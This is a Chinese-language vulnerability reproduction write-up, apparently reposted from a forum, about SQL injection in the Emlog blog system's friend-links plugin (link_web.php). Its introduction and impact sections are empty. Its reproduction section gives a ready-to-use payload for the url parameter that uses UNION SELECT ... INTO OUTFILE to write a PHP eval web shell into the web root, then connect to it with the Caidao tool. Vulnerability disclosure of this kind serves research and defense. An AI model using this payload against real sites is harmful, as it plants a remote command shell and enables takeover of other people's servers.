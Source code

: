 # Emlog 友情链接自助插件存在SQL注入漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2910](https://www.zhihuifly.com/t/topic/2910)

# Emlog 友情链接自助插件存在SQL注入漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

在该插件当中的link_web.php文件中，直接将用户提交的数据进行了拼接，之后直接带入了查询，未经过任何的过滤操作，由此一个典型的SQL注入漏洞就这样简易的诞生了：

![image](img/423764f83cfb33abdaeaabeb1c1a8457.png)

由于这里的参数都没有经过过滤，所以我们可以对任意参数进行验证，进行SQL注入，首先我们可以提交正常的访问请求，之后使用burpsuite进行抓包，之后改包，我们这里以URL为例：

在抓取到数据包之后，我们可以将url改为以下内容：

```
url=http://0-sec.org' union select 1,2,3,4,5,'<?php eval($_GET[cmd]); ?>' into outfile 'c:\\phpstudy\\www\\shell.php' 
```

之后，这条语句会正常执行，同时也会在C:\phpstudy\www\下生成一个shell.php，而且该shell.php中的内容正是我们之前写入的一句话，之后我们可以使用菜刀进行连接。